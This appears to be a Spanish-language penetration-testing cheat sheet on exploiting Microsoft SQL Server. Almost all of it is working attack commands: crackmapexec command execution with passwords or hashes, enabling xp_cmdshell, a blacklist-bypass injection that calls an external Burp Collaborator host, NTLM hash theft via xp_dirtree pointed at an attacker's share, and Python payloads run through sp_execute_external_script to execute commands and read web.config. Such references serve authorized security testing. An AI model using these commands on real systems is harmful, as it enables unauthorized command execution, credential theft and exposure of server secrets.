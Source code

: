 ## VULNERABILIDADES

### Ejecución de comandos

```
#Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
#Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

#this turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'

# Bypass blackisted "EXEC xp_cmdshell"
‘; DECLARE @x AS VARCHAR(100)=’xp_cmdshell’; EXEC @x ‘ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net’ —
```

### Recolección de Hashes NTLM

Este proceso se puede realizar utilizando **impacket-smbserver** o **responder**. Sin embargo tambien hay un módulo de metasploit que permite robar hashes NTLM mediante mssql:

```
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

### Explotar los links confiables

{% embed url="https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links" %}
Fuente
{% endembed %}

### Leer y ejecutar scripts en Python y R

MSSQL puede ejecutar scripts en Python y en R. Estos códigos serán ejecutados por un usuario diferente que el que está utilizando xp\_cmdshell para ejecutar los comandos.

Ejemplo utilizando Python:

```
#Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
